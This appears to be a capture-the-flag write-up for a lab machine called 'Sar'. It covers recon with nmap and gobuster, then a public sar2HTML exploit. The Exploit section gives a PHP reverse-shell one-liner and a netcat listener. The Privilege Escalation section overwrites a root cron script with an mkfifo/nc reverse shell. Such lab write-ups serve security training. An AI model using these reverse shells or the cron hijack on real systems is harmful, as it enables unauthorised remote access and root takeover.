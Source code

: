 # Sar

![img/os.png](img/os.png)

## Recon

### Nmap

```bash
nmap 192.168.205.35 -Pn -T3 -sV -sC

Nmap scan report for 192.168.205.35
Host is up (0.26s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 33:40:be:13:cf:51:7d:d6:a5:9c:64:c8:13:e5:f2:9f (RSA)
|   256 8a:4e:ab:0b:de:e3:69:40:50:98:98:58:32:8f:71:9e (ECDSA)
|_  256 e6:2f:55:1c:db:d0:bb:46:92:80:dd:5f:8e:a3:0a:41 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 41.62 seconds
```

Just find two open port & service, let's enumerate the web directory

### Gobuster

```bash
gobuster dir -u http://192.168.205.35 -w /usr/share/wordlists/dirb/common.txt -t 10   1

===============================================================
2021/07/24 09:23:11 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 279]
/.htpasswd            (Status: 403) [Size: 279]
/.htaccess            (Status: 403) [Size: 279]
/index.html           (Status: 200) [Size: 10918]
/phpinfo.php          (Status: 200) [Size: 95419]
/robots.txt           (Status: 200) [Size: 9]    
/server-status        (Status: 403) [Size: 279]  
                                                 
===============================================================
2021/07/24 09:25:18 Finished
```

Find interesting `robots.txt` and `phpinfo.php`. Open the robots.txt to find the hidden content from the crawler

![img/Untitled.png](img/Untitled.png)

We got this, so let's open the `sar2HTML` page to seek out what we can get.

![img/Untitled%201.png](img/Untitled%201.png)

We get the application page and the version is 3.2.1, try to search in exploit DB we get the publicly known exploit

![img/Untitled%202.png](img/Untitled%202.png)

## Exploit

![img/Untitled%203.png](img/Untitled%203.png)

To use the exploit, we need to find the base url so the exploit can add the payload after it. Little exploration in the application page, we get the base url, when we click button "**New**" , sar2HTML build the smiliar query & url with the exploit url, so we can assume the base url is [`http://192.168.205.35/sar2HTML`](http://192.168.205.35/sar2HTML) , so now we can use the exploit.

![img/Untitled%204.png](img/Untitled%204.png)

Let's create the reverse shell so we can get more interactive with the machine. We can use the PHP Reverse Shell from the [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#php) like this

```bash
php -r '$sock=fsockopen("10.0.0.1",4242);exec("/bin/sh -i <&3 >&3 2>&3");'
```

We can use the [URL Decoder/Encoder](https://meyerweb.com/eric/tools/dencoder/) to craft the PHP Reverse Shell into URL encoding

![img/Untitled%205.png](img/Untitled%205.png)

in our machine, create a netcat listener

```bash
nc -lvnp 4444
```

To get the shell, we no longer to use the exploit, just add the payload was encoded into the application url 

![img/Untitled%206.png](img/Untitled%206.png)

And we get the reverse shell

![img/Untitled%207.png](img/Untitled%207.png)

Enumerate the `home` directory, we got first flag

![img/Untitled%208.png](img/Untitled%208.png)

## Privilege Escalation

Enumerate the `crontab` file we see there is a cron job execute by root every 5 minute

![img/Untitled%209.png](img/Untitled%209.png)

Let's see the `finally.sh` file

![img/Untitled%2010.png](img/Untitled%2010.png)

`finally.sh` was intended to call another script file which is `write.sh`, so jump into the `write.sh`

![img/Untitled%2011.png](img/Untitled%2011.png)

So with this cronjob flow, we can summary :

1. Every 5 minutes, cron run the `finally.sh` , with the root privilege
2. When `finally.sh` run, it's call another script, `write.sh`
3. `write.sh` will create a new file in `/tmp` directory with name `gateway`

Now we try to replace the content of `write.sh` file (because we have the write permission on that, not the `finally.sh` ) to open the root reverse shell 

```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.49.205 8888 >/tmp/f" > write.sh
```

Then we wait for 5 minutes untill the cron execute the `[finally.sh](http://finally.sh)` untill the connection is open

and we can get the root flag

![img/Untitled%2012.png](img/Untitled%2012.png)
